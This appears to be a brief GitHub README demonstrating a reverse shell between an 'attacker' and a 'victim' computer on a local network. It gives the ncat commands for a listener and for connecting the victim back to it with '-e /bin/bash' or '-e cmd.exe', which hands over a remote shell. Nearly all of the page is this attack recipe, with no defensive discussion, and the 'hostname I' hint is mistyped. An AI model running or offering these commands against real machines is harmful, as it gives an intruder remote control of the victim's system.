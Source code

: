 # Reverse Shell Demo

## This demo is done between 2 computers on the same network, a server (attacker computer), and a client (victim computer). This can be done on a remote target but local targets are faster for a demo, result is identical.

### 1) Install NetCat/Nmap


### 2) Set up a listening server:
Run `ncat -lvnp <port>`


### 3) Connect client to server:
**On Linux/Bash:**

Run `ncat <server-internal-ip> <port> -e /bin/bash`

**On Windows:**

Run `ncat <server-internal-ip> <port> -e cmd.exe`

*To find the internal IP run `hostname I` on Linux OR `ipconfig` on Windows.*
